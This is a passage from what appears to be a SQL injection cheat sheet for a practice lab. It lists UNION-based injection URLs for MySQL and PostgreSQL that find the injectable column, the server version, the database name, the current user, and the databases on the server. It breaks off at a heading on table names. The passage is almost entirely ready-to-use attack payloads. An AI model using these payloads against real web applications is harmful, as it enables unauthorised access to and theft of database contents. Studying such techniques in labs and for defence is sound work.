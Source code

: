 (until it stop returning errors)

---

#### Finding what column is injectable

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, 3`

(using the same amount of columns you got on the previous step)

**postgresql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, NULL`

(using the same amount of columns you got on the previous step)

one of the columns will be printed with the respective number

---

#### Finding version

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, version()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, version()`

#### Finding database name

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1,2, database()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL,NULL, database()`

#### Finding usernames logged in

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, current_user()`

#### Finding databases

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, datname from pg_database`

#### Finding table names from a database

**mysql**
